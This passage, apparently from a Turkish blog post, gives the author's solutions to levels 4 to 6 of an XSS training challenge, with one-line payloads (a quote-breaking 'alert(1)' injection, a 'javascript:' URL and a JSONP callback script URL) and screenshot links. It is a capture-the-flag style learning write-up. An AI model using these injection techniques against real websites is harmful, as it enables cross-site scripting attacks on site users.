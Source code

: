<strong>Soru 4</strong>

[php]  '); alert(1) // [/php]

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/08/4.png"><img class="alignnone size-large wp-image-466" src="http://www.gurelahmet.com/wp-content/uploads/2015/08/4-1024x579.png" alt="4" width="976" height="552" /></a>

&nbsp;

<strong>Soru 5</strong>

[php] javascript:alert(1) [/php]

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/08/5.png"><img class="alignnone size-large wp-image-467" src="http://www.gurelahmet.com/wp-content/uploads/2015/08/5-1024x644.png" alt="5" width="976" height="614" /></a>

&nbsp;

<strong>Soru 6</strong>

[php] //www.google.com/jsapi?callback=alert [/php]

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/08/6.png"><img class="alignnone size-large wp-image-468" src="http://www.gurelahmet.com/wp-content/uploads/2015/08/6-1024x560.png" alt="6" width="976" height="534" /></a>

&nbsp;

&nbsp;

<strong>Success!!</strong>

<a href="http://www.gurelahmet.com/wp-content/uploads/2015/08/TheEnd.png"><img class="alignnone size-large wp-image-469" src="http://www.gurelahmet.com/wp-content/uploads/2015/08/TheEnd-1024x554.png" alt="TheEnd" width="976" height="528" /></a>
